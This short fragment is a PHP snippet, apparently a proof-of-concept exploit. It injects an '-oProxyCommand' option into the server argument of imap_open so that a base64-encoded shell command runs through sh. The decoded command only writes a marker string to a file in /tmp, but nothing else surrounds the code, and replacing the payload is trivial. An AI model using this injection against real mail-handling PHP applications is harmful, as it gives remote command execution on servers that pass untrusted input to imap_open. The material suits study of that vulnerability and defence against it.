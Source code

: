 $server = "x -oProxyCommand=echo\tZWNobyAnMTIzNDU2Nzg5MCc+L3RtcC90ZXN0MDAwMQo=|base64\t-d|sh}";

imap_open('{'.$server.':143/imap}INBOX', '', '') or die("\n\nError: ".imap_last_error());
